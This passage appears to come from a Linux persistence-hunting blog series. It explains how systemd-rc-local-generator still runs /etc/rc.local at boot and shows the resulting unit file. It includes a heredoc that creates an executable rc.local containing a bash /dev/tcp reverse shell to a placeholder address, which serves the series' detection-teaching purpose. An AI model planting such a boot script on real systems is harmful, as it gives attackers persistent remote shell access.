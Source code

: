     *   12 - Boot or Logon Initialization Scripts: systemd-generators
*  (WIP) Hunting for Persistence in Linux (Part 6): Rootkits, Compromised Software, and Others
    *   Modify Authentication Process: Pluggable Authentication Modules
    *   Compromise Client Software Binary
    *   Boot or Logon Autostart Execution: Kernel Modules and Extensions
    *   Hijack Execution Flow: Dynamic Linker Hijacking



### 8 Boot or Logon Initialization Scripts: RC Scripts

**MITRE:** [https://attack.mitre.org/techniques/T1037/004/](https://attack.mitre.org/techniques/T1037/004/)

#### 8.1 Isn't rc.local deprecated?

You might have noticed that newer version of linux distributions no longer have `/etc/rc.local`. This is because they have migrated to using `systemd` for init scripts.

However, there exists compatibility exes in `systemd` called `systemd-generator`. For example we have the [systemd-rc-local-generator](https://www.freedesktop.org/software/systemd/man/systemd-rc-local-generator.html). The exectuable for this can be found in `/usr/lib/systemd/system-generators/systemd-rc-local-generator`  ([source code](https://github.com/systemd/systemd/blob/main/src/rc-local-generator/rc-local-generator.c))

>  `systemd-rc-local-generator` is a generator that checks whether `/etc/rc.local` exists and is executable, and if it is, pulls the `rc-local.service` unit into the boot process.

As long as `systemd-rc-local-generator` is included in the current version of `systemd`, then `/etc/rc.local` will run on boot.

#### 8.2 Creating rc.local 

This is pretty straightforward, just create an executable script 

```
cat > /etc/rc.local << EOF
#! /bin/bash
echo "Success! \$(date)" >> /tmp/rc.local.out
bash -i >& /dev/tcp/127.0.0.1/7777 0>&1
EOF

chmod +x /etc/rc.local
```

On the next boot, the generator will create a symlink of `rc-local.service` in a `multi-user.target.wants` to enable and so that `/etc/rc.local` will execute. 

You can see the location of the unit file by running `systemctl status rc-local` and the unit file is `lib/systemd/system/rc-local.service` 
```
[Unit]
Description=/etc/rc.local Compatibility
Documentation=man:systemd-rc-local-generator(8)
ConditionFileIsExecutable=/etc/rc.local
After=network.target

[Service]
Type=forking
ExecStart=/etc/rc.local start
TimeoutSec=0
RemainAfterExit=yes
GuessMainPID=no
```
